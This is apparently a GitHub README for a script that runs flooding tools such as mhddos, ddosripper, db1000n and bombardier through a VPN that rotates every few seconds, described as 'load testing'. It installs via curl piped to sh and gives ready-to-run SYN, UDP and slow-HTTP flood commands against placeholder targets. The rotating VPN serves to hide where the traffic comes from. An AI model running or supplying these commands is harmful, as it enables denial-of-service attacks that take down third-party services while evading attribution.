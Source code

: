 # Ubuntu load testing tools under vpn runner
Script runs load under vpn and refreshes vpn every N seconds

Supports many VPN providers via https://github.com/qdm12/gluetun/wiki

# Install
```
curl https://raw.githubusercontent.com/ctukraine22/runner/master/install.sh | sh
```

# Init vpn settings
```
/runner/init.sh %vpn-user% %vpn-pass% %vpn-type% "vpn-countries" %vpn-refresh-sec% %vpn-servers% %vpn-transport% %vpn-cret-repo%
# example:
 /runner/init.sh user1 code1 expressvpn Country
```

# Run

```
/runner/run.sh %tool% %tool-args%

/runner/run.sh bombardier -p "i,p,r" -c 1000 -d 9000s -l x.x.x.x 80 
/runner/run.sh ddosripper x.x.x.x 80 
/runner/run.sh mhddos SLOW http://x.x.x.x 5 100 socks5.txt 100 9000
/runner/run.sh mhddos SYN x.x.x.x:80 100 9000
bash /runner/run.sh mhddos UDP x.x.x.x:53 100 3000
/runner/run.sh db1000n
/runner/run.sh uashield

```
- %vpn-type% here https://github.com/qdm12/gluetun/wiki
- %vpn-transport%: tcp/udp
- "vpn-counties" %vpn-servers%: different fore each vpn provider, see https://github.com/qdm12/gluetun/wiki
- %vpn-cret-repo%: git repository which contains cert files in folder named same as %vpn-type%

To use cyberhost you need to provide repo with key and crt file via %vpn-cret-repo%

# Supported tools
- db1000n
- checksites
- gofucker
- uashield
- ddoser
- ddosripper
- bombardier
- mhddos
- kali

# Get status after reconnect
```
bash /runner/run.sh status
```